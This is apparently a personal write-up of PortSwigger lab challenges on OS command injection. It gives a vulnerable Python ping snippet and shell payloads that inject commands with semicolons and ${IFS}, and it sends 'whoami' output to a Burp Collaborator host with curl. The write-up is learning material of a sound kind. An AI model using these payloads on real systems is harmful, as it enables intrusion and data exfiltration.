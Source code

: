 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
  
### Challenge 1: Os command injection simple case
Challenge description:

![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

 ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

 ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

 ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

 ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

 - I used the payload of the last challenge to make a dns query to burp collaborator.

       

- Challenge solved

 ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)
